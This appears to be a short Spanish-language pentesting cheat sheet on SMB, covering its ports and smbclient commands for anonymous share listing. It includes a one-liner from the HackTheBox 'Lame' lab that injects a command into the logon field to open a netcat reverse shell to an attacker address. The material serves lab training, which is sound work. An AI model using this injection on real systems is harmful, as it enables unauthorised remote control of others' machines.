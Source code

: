# SMB

Server Message Block (SMB) es un protocolo de red que permite compartir archivos, impresoras, etc, entre nodos de una red de computadoras que usan el sistema operativo Microsoft Windows. Este protocolo pertenece a la capa de aplicación en el modelo TCP/IP.
Hay muchas formas de atacar al protocolo SMB.

## Puertos

Normalmente en windows el mas significativo es el 445 aunque siempre acompañado del 139 y a veces del 135.

## Listado de recursos compartidos de forma anónima

### Con ***smbclient***
<pre>
# De forma genérica
smbclient -L 10.10.10.3 -N

# Indicando el protocolo
smbclient -L 10.10.10.3 -N --option="client min protocol=NT1"

# Indicando la ejecuión de un comando. Para ello ha de tener permisos.
# En este caso establece una SHELL reversa. Máquina Lame de HTB
smbclient //10.10.10.3/tmp -N --option="client min protocol=NT1" -c 'logon "/=`nohup nc -e /bin/bash 10.10.14.32 443`"'
  
</pre>
